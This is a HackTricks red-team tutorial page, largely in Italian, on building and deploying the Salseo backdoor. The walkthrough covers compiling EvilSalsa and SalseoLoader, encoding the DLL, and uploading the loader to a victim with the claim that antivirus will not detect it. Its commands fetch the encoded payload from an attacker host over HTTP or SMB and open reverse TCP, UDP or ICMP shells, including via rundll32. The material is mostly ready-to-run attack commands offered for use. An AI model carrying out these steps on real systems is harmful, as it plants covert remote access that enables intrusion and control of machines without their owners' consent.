 # Salseo

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compiling the binaries

Scarica il codice sorgente da github e compila **EvilSalsa** e **SalseoLoader**. Avrai bisogno di **Visual Studio** installato per compilare il codice.

Compila questi progetti per l'architettura della macchina Windows dove intendi usarli (Se Windows supporta x64, compilali per quell'architettura).

Puoi **selezionare l'architettura** all'interno di Visual Studio nella **scheda "Build" a sinistra** in **"Platform Target".**

(\*\*Se non riesci a trovare queste opzioni, premi su **"Project Tab"** e poi su **"\<Project Name> Properties"**)

![](<../.gitbook/assets/image (132).png>)

Poi, costruisci entrambi i progetti (Build -> Build Solution) (All'interno dei log apparirà il percorso dell'eseguibile):

![](<../.gitbook/assets/image (1) (2) (1) (1) (1).png>)

## Prepare the Backdoor

Prima di tutto, dovrai codificare il **EvilSalsa.dll.** Per farlo, puoi usare lo script python **encrypterassembly.py** oppure puoi compilare il progetto **EncrypterAssembly**:

### **Python**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### Windows
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
Ok, ora hai tutto ciò di cui hai bisogno per eseguire tutto il Salseo: il **encoded EvilDalsa.dll** e il **binary of SalseoLoader.**

**Carica il file binario SalseoLoader.exe sulla macchina. Non dovrebbero essere rilevati da alcun AV...**

## **Esegui il backdoor**

### **Ottenere una reverse shell TCP (scaricando dll codificata tramite HTTP)**

Ricorda di avviare un nc come listener della reverse shell e un server HTTP per servire l'evilsalsa codificato.
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **Ottenere una shell inversa UDP (scaricando dll codificata tramite SMB)**

Ricorda di avviare un nc come listener della shell inversa e un server SMB per servire l'evilsalsa codificato (impacket-smbserver).
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **Ottenere una shell inversa ICMP (dll codificata già all'interno della vittima)**

**Questa volta hai bisogno di uno strumento speciale nel client per ricevere la shell inversa. Scarica:** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **Disabilita le risposte ICMP:**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### Esegui il client:
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### All'interno della vittima, eseguiamo la cosa salseo:
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## Compilare SalseoLoader come DLL esportando la funzione principale

Apri il progetto SalseoLoader utilizzando Visual Studio.

### Aggiungi prima della funzione principale: \[DllExport]

![](<../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

### Installa DllExport per questo progetto

#### **Strumenti** --> **Gestore pacchetti NuGet** --> **Gestisci pacchetti NuGet per la soluzione...**

![](<../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

#### **Cerca il pacchetto DllExport (utilizzando la scheda Sfoglia) e premi Installa (e accetta il popup)**

![](<../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

Nella tua cartella di progetto sono apparsi i file: **DllExport.bat** e **DllExport\_Configure.bat**

### **Dis**installa DllExport

Premi **Disinstalla** (sì, è strano ma fidati, è necessario)

![](<../.gitbook/assets/image (5) (1) (1) (2) (1).png>)

### **Esci da Visual Studio ed esegui DllExport\_configure**

Basta **uscire** da Visual Studio

Poi, vai nella tua **cartella SalseoLoader** e **esegui DllExport\_Configure.bat**

Seleziona **x64** (se intendi usarlo all'interno di una box x64, questo era il mio caso), seleziona **System.Runtime.InteropServices** (all'interno di **Namespace per DllExport**) e premi **Applica**

![](<../.gitbook/assets/image (7) (1) (1) (1) (1).png>)

### **Apri di nuovo il progetto con Visual Studio**

**\[DllExport]** non dovrebbe più essere contrassegnato come errore

![](<../.gitbook/assets/image (8) (1).png>)

### Compila la soluzione

Seleziona **Tipo di output = Class Library** (Progetto --> Proprietà SalseoLoader --> Applicazione --> Tipo di output = Class Library)

![](<../.gitbook/assets/image (10) (1).png>)

Seleziona **piattaforma x64** (Progetto --> Proprietà SalseoLoader --> Compilazione --> Target piattaforma = x64)

![](<../.gitbook/assets/image (9) (1) (1).png>)

Per **compilare** la soluzione: Compila --> Compila soluzione (All'interno della console di output apparirà il percorso della nuova DLL)

### Testa la DLL generata

Copia e incolla la DLL dove vuoi testarla.

Esegui:
```
rundll32.exe SalseoLoader.dll,main
```
Se non appare alcun errore, probabilmente hai un DLL funzionante!!

## Ottieni una shell usando il DLL

Non dimenticare di usare un **server** **HTTP** e impostare un **ascoltatore** **nc**

### Powershell
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### CMD
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
